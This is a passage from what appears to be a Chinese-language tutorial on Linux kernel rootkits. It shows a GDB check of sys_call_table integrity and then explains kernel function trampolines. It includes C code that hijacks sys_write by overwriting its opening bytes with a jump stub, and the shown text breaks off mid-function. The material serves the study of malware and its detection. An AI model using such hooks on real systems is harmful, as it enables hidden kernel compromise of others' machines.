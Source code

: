## 检测`sys_call_table`的修改

要检测`sys_call_table`的修改，可以查看`System.map`文件或`/proc/kallsyms`，以查看每个系统调用的内存地址。例如，如果我们想要检测`sys_write`系统调用是否被感染，我们需要了解`sys_write`的合法地址及其在`sys_call_table`中的索引，然后使用 GDB 和`/proc/kcore`验证正确的地址是否实际存储在内存中。

### 验证系统调用完整性的示例

```
$ sudo grep sys_write /proc/kallsyms
ffffffff811d5310 T sys_write
$ grep _write /usr/include/x86_64-linux-gnu/asm/unistd_64.h
#define __NR_write 1
$ sudo gdb -q vmlinux /proc/kcore
(gdb) x/gx &sys_call_table+1
0xffffffff81801464 <sys_call_table+4>:  0x811d5310ffffffff
```

请记住，在 x86 架构上，数字是以小端存储的。`sys_call_table[1]`处的值等同于在`/proc/kallsyms`中查找的正确的`sys_write`地址。因此，我们已成功验证了`sys_write`的`sys_call_table`条目没有被篡改。

## 内核函数跳板

这种技术最初是由 Silvio Cesare 于 1998 年引入的。其想法是能够修改系统调用而无需触及`sys_call_table`，但事实上，这种技术允许钩住内核中的任何函数。因此，它非常强大。自 1998 年以来，很多事情已经发生了；内核的文本段现在不能再被修改，除非禁用`cr0`中的写保护位或修改 PTE。然而，主要问题在于，大多数现代内核使用 SMP，而内核函数跳板是不安全的，因为它们在每次调用补丁函数时使用非原子操作，比如`memcpy()`。事实证明，还有方法可以规避这个问题，使用一种我在这里不讨论的技术。真正的问题在于，内核函数跳板实际上仍在使用，因此理解它们仍然非常重要。

### 注意

修改调用原始函数的单个调用指令，使其调用替代函数，被认为是一种更安全的技术。这种方法可以用作替代函数跳板，但可能很难找到每个单独的调用，而且这通常会因内核而异。因此，这种方法不太具有可移植性。

## 函数跳板的示例

想象一下，你想劫持系统调用`SYS_write`，并且不想担心直接修改`sys_call_table`，因为这很容易被检测到。这可以通过覆盖`sys_write`代码的前 7 个字节，使用包含跳转到另一个函数的代码的存根来实现。

### 在 32 位内核上劫持 sys_write 的示例代码

```
#define SYSCALL_NR __NR_write

static char syscall_code[7];
static char new_syscall_code[7] =
"\x68\x00\x00\x00\x00\xc3"; // push $addr; ret

// our new version of sys_write
int new_syscall(long fd, void *buf, size_t len)
{
        printk(KERN_INFO "I am the evil sys_write!\n");

        // Replace the original code back into the first 6
        // bytes of sys_write (remove trampoline)

        memcpy(
       sys_call_table[SYSCALL_NR], syscall_code,
                sizeof(syscall_code)
        );

        // now we invoke the original system call with no trampoline
        ((int (*)(fd, buf, len))sys_call_table[SYSCALL_NR])(fd, buf, len);

        // Copy the trampoline back in place!
        memcpy(
                sys_call_table[SYSCALL_NR], new_syscall_code,
                sizeof(syscall_code)
```